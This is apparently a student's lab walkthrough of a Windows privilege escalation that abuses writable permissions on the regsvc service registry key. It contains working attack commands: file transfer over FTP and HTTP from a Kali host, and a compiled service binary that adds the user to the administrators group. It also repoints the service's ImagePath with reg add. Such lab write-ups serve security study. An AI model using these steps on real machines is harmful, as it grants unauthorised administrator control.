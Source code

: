 #Windows #PrivEsc #Registry #SimpleHTTPServer #gcc-mingw-w64 #regsvc #pyftpdlib #SimpleHTTPServer #x86_64-w64-mingw32-gcc #sc 

﻿## **Detection**

Windows VM

1. Open PowerShell prompt and type: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2. Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

**Exploitation**

Windows VM

1. Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the Kali VM.
	- Create a python ftp server on LHOST using `pyftpdlib`
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m pyftpdlib -p 21 --write       
/usr/lib/python3/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-10-07 20:22:14] concurrency model: async
[I 2024-10-07 20:22:14] masquerade (NAT) address: None
[I 2024-10-07 20:22:14] passive ports: None
[I 2024-10-07 20:22:14] >>> starting FTP server on 0.0.0.0:21, pid=659525 <<<
```
- Transfer file from RHOST to LHOST - with `cmd.exe` in directory of file to transfer to LHOST:
```
... [Windows RHOST as user]

> ftp [LHOST IP - Kali VM]

ftp> anonymous:anonymous

ftp> put windows_service.c

... [Kali VM - ftp server] ...

[I 2024-10-07 20:25:59] 10.10.59.8:49231-[anonymous] USER 'anonymous' logged in.
[I 2024-10-07 20:26:07] 10.10.59.8:49231-[anonymous] STOR /root/Downloads/windows_service.c completed=1 bytes=2043 seconds=0.497
```

Kali VM

1. Open `windows_service.c` in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`  
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
		*(NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`')* 
3. Copy the generated file `x.exe`, to the Windows VM.
- Using same `pyftpdlib`  and using `get` gave me error 193. But when I used `SimpleHTTPServer`, it transferred and the privesc worked!
```
┌──(root㉿kali)-[~/Downloads]
└─# python -m SimpleHTTPServer 80 
Serving HTTP on 0.0.0.0 port 80 ...
10.10.59.8 - - [07/Oct/2024 20:40:41] "GET / HTTP/1.1" 200 -
10.10.59.8 - - [07/Oct/2024 20:40:42] code 404, message File not found
10.10.59.8 - - [07/Oct/2024 20:40:42] "GET /favicon.ico HTTP/1.1" 404 -
10.10.59.8 - - [07/Oct/2024 20:40:46] "GET /x.exe HTTP/1.1" 200 -
```
- Navigate to LHOST IP from RHOST browser to download the `x.exe`

Windows VM

1. Place `x.exe` in ‘`C:\Temp`’. 
2. Open command prompt at type: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`  
3. In the command prompt type: `sc start regsvc`  
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

